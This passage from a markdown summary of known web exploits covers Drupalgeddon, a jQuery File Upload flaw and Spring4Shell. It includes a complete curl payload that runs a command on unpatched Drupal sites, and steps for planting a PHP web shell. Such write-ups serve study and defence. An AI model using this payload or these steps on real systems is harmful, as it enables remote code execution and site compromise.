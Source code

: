 
## 💣 3. **Drupalgeddon (CVE-2018-7600)**

### 🔎 What Happened:

Unpatched Drupal installations allowed remote code execution via crafted requests exploiting form rendering logic.

### 🔥 Offensive Steps:

```bash
curl -s -X POST "http://victim.com/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=passthru&mail[a][#markup]=id"
```

* Attacker ran `id` command on remote server.
* Exploited thousands of public Drupal sites.

---

## 💣 4. **jQuery File Upload Plugin RCE**

### 🔎 What Happened:

An outdated plugin allowed arbitrary file uploads to webroot on Apache/Nginx.

### 💣 Exploitation:

* Upload `shell.php`
* Access via `/uploads/shell.php`
* No MIME validation or whitelist checking

### 🔁 Real-World Use:

* Used in mass defacements
* Common in WordPress, Joomla, custom CMS

---

## 💣 5. **Spring4Shell (CVE-2022-22965)**

### 🔎 What Happened:

Vulnerable versions of Spring Framework let attackers abuse class bindings to write arbitrary files.

### 🧠 Exploit Chain:

1. Target a controller binding `ClassLoader` object
2. Overwrite logs or JSP files on disk
3. Trigger payload with webshell access
